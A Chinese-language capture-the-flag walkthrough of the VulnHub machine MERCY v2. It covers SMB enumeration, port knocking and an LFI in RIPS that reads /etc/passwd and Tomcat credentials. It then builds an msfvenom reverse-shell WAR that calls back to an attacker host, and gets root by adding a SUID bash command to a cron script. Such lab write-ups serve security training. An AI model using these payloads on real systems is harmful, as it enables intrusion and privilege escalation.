# digitalworld.local: MERCY v2

> https://download.vulnhub.com/digitalworld/MERCY-v2.zip

靶场IP：`192.168.111.158`

扫描对外IP地址

```
┌──(root💀kali)-[~]
└─# nmap -sV -p1-65535 192.168.111.158                                                                                                                                                                                                 
Starting Nmap 7.91 ( https://nmap.org ) at 2022-08-17 09:12 EDT
Nmap scan report for 192.168.111.158
Host is up (0.0029s latency).
Not shown: 65525 closed ports
PORT     STATE    SERVICE     VERSION
22/tcp   filtered ssh
53/tcp   open     domain      ISC BIND 9.9.5-3ubuntu0.17 (Ubuntu Linux)
80/tcp   filtered http
110/tcp  open     pop3?
139/tcp  open     netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
143/tcp  open     imap        Dovecot imapd
445/tcp  open     netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
993/tcp  open     ssl/imaps?
995/tcp  open     ssl/pop3s?
8080/tcp open     http        Apache Tomcat/Coyote JSP engine 1.1
MAC Address: 00:0C:29:C0:C2:D8 (VMware)
Service Info: Host: MERCY; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 163.26 seconds

```

查看SMB共享

```
┌──(root💀kali)-[~]
└─# smbclient -L //192.168.111.158
Password for [WORKGROUP\root]:

        Sharename       Type      Comment
        ---------       ----      -------
        print$          Disk      Printer Drivers
        qiu             Disk      
        IPC$            IPC       IPC Service (MERCY server (Samba, Ubuntu))
Reconnecting with SMB1 for workgroup listing.

        Server               Comment
        ---------            -------

        Workgroup            Master
        ---------            -------
        WORKGROUP            

```


浏览器访问8080端口



找到`robots.txt`文件





访问`/tryharder/tryharder`，找到一串加密字符串，并且使用base64解析。

```
┌──(root💀kali)-[~]
└─# echo 'SXQncyBhbm5veWluZywgYnV0IHdlIHJlcGVhdCB0aGlzIG92ZXIgYW5kIG92ZXIgYWdhaW46IGN5YmVyIGh5Z2llbmUgaXMgZXh0cmVtZWx5IGltcG9ydGFudC4gUGxlYXNlIHN0b3Agc2V0dGluZyBzaWxseSBwYXNzd29yZHMgdGhhdCB3aWxsIGdldCBjcmFja2VkIHdpdGggYW55IGRlY2VudCBwYXNzd29yZCBsaXN0LgoKT25jZSwgd2UgZm91bmQgdGhlIHBhc3N3b3JkICJwYXNzd29yZCIsIHF1aXRlIGxpdGVyYWxseSBzdGlja2luZyBvbiBhIHBvc3QtaXQgaW4gZnJvbnQgb2YgYW4gZW1wbG95ZWUncyBkZXNrISBBcyBzaWxseSBhcyBpdCBtYXkgYmUsIHRoZSBlbXBsb3llZSBwbGVhZGVkIGZvciBtZXJjeSB3aGVuIHdlIHRocmVhdGVuZWQgdG8gZmlyZSBoZXIuCgpObyBmbHVmZnkgYnVubmllcyBmb3IgdGhvc2Ugd2hvIHNldCBpbnNlY3VyZSBwYXNzd29yZHMgYW5kIGVuZGFuZ2VyIHRoZSBlbnRlcnByaXNlLg==' | base64 -d
It's annoying, but we repeat this over and over again: cyber hygiene is extremely important. Please stop setting silly passwords that will get cracked with any decent password list.

Once, we found the password "password", quite literally sticking on a post-it in front of an employee's desk! As silly as it may be, the employee pleaded for mercy when we threatened to fire her.

No fluffy bunnies for those who set insecure passwords and endanger the enterprise.  
```

> 这很烦人，但我们一遍又一遍地重复：网络卫生非常重要。 请停止设置愚蠢的密码，这些密码会被任何体面的密码列表破解。
>
> 有一次，我们找到了密码"password"，简直就是贴在员工办公桌前的便利贴上！ 尽管这可能很愚蠢，但当我们威胁要解雇她时，这位员工恳求宽恕。
>
> 对于那些设置不安全密码并危及企业的人来说，没有毛茸茸的兔子。



此消息告诉我们用户的密码设置为，`password`因此我们知道有 4 个用户，并且我们看到一个名为的 smb 共享`qiu`，它是一个用户名，因此我们可以尝试此密码是否适合该用户

```
┌──(root💀kali)-[~]
└─# smbmap -u 'qiu' -p 'password' -H 192.168.111.158
[+] IP: 192.168.111.158:445     Name: 192.168.111.158                                   
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        print$                                                  READ ONLY       Printer Drivers
        qiu                                                     READ ONLY
        IPC$                                                    NO ACCESS       IPC Service (MERCY server (Samba, Ubuntu))

```

这是该用户的密码，因此我们可以读取共享

```
┌──(root💀kali)-[~]
└─# smbclient -U 'qiu' \\\\192.168.111.158\\qiu     
Password for [WORKGROUP\qiu]:
Try "help" to get a list of possible commands.                                                                                                                                                                                               
smb: \> dir                                                                                                                                                                                                                                  
  .                                   D        0  Fri Aug 31 15:07:00 2018                                                                                                                                                                   
  ..                                  D        0  Mon Nov 19 11:59:09 2018                                                                                                                                                                   
  .bashrc                             H     3637  Sun Aug 26 09:19:34 2018                                                                                                                                                                   
  .public                            DH        0  Sun Aug 26 10:23:24 2018                                                                                                                                                                   
  .bash_history                       H      163  Fri Aug 31 15:11:34 2018                                                                                                                                                                   
  .cache                             DH        0  Fri Aug 31 14:22:05 2018                                                                                                                                                                   
  .private                           DH        0  Sun Aug 26 12:35:34 2018                                                                                                                                                                   
  .bash_logout                        H      220  Sun Aug 26 09:19:34 2018                                                                                                                                                                   
  .profile                            H      675  Sun Aug 26 09:19:34 2018                                                                                                                                                                   
                                                                                                                                                                                                                                             
                19213004 blocks of size 1024. 16328196 blocks available 
```

转到`.private/opensesame`文件夹，我们可以看到一个配置文件



此配置文件用于 smb，我们可以在此处查看端口敲击配置

```
[options]
        UseSyslog

[openHTTP]
        sequence    = 159,27391,4
        seq_timeout = 100
        command     = /sbin/iptables -I INPUT -s %IP% -p tcp --dport 80 -j ACCEPT
        tcpflags    = syn

[closeHTTP]
        sequence    = 4,27391,159
        seq_timeout = 100
        command     = /sbin/iptables -D INPUT -s %IP% -p tcp --dport 80 -j ACCEPT
        tcpflags    = syn

[openSSH]
        sequence    = 17301,28504,9999
        seq_timeout = 100
        command     = /sbin/iptables -I INPUT -s %IP% -p tcp --dport 22 -j ACCEPT
        tcpflags    = syn

[closeSSH]
        sequence    = 9999,28504,17301
        seq_timeout = 100
        command     = /sbin/iptables -D iNPUT -s %IP% -p tcp --dport 22 -j ACCEPT
        tcpflags    = syn

```

端口敲门

```
┌──(root💀kali)-[~]
└─# knock 192.168.111.158 17301 28504 9999                                                                       1 ⨯
                                                                                                                     
┌──(root💀kali)-[~]
└─# knock 192.168.111.158 159 27391 4  
```

可以发现22，80端口开启



访问80端口



我们可以检查`robots.txt`文件



访问这两个目录





我们找到了 RIPS，并且我们有一个 0.53 版本，所以我们寻找漏洞利用



根据文档提示，发现一个LFI漏洞

```
http://192.168.111.158/nomercy//windows/code.php?file=/etc/passwd
```



我们确认 LFI 存在，现在让我们退后一步，我们知道有 apache tomcat，所以我们可以查看`tomcat-users.xml`包含登录用户名和密码的文件，`/manager`但我们需要安装路径。找到管理用户`thisisasuperduperlonguser/heartbreakisinevitable`

```
http://192.168.111.158/nomercy//windows/code.php?file=/var/lib/tomcat7/conf/tomcat-users.xml
```



登录tomcat管理界面成功



我们生成一个 WAR木马

```
┌──(root💀kali)-[~]
└─# msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.111.153 LPORT=9999 -f war > shell.war  
```

上传war包，反弹shell



我们已经找到了`fluffy`的`freakishfluffybunny`密码，让我们切换用户



发现一个时钟文件

```
cat timeclock 
#!/bin/bash

now=$(date)
echo "The system time is: $now." > ../../../../../var/www/html/time
echo "Time check courtesy of LINUX" >> ../../../../../var/www/html/time
chown www-data:www-data ../../../../../var/www/html/time

```



我们可以看到这个脚本以 root 身份运行，所以我们可以在其中包含一个反向 shell 或者将 bash 设置为 SUID（这是一种简单的方法），所以让我们修改 bash 脚本

```
chmod +s /bin/bash
```



使 bash 成为 SUID 意味着如果我们`-p`在执行时提供参数，它将以 root 身份执行。等待一段时间后，我们可以检查它是否被设为 SUID 以验证它是否`ls -la`在 bash 上运行。


